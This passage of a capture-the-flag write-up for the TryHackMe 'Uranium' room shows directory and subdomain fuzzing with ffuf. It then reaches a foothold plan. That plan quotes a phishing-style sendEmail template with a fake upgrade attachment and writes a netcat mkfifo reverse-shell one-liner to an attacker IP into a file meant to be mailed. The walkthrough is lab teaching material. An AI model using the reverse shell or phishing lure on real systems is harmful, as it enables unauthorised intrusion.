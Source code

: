 ```shell
/.htpasswds           (Status: 403) [Size: 276]
/.htgroup             (Status: 403) [Size: 276]
/.htaccess.bak        (Status: 403) [Size: 276]
/.htuser              (Status: 403) [Size: 276]
/.ht                  (Status: 403) [Size: 276]
/.htc                 (Status: 403) [Size: 276]
/.htaccess.old        (Status: 403) [Size: 276]
/.htacess             (Status: 403) [Size: 276]
```

Nothing stands out.

**Then fuzz subdomains via `ffuf`:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Uranium-CTF)-[2023.02.10|09:47:57(HKT)]
└> ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://uranium.thm/ -H "Host: FUZZ.uranium.thm" -fw 428 -t 100 
[...]
```

Again, nothing...

## Initial Foothold

Hmm... Let's go back to SMTP.

In SMTP, we can send a mail.

**Let's try to send an application mail with a Bash reverse shell!**

**According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smtp#sending-an-email-from-linux-console), we can send via `sendEmail` Linux command:**
```shell
root@kali:~# sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

IT Dept,

We are sending this important file to all our customers. It contains very important instructions for upgrading and securing your software. Please read and let us know if you have any problems.

Sincerely,
```

**Armed with above information, let's first create an "application" file, which is a Netcat reverse shell:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Uranium-CTF)-[2023.02.10|16:13:17(HKT)]
└> echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.70.81 443 >/tmp/f' > application
```
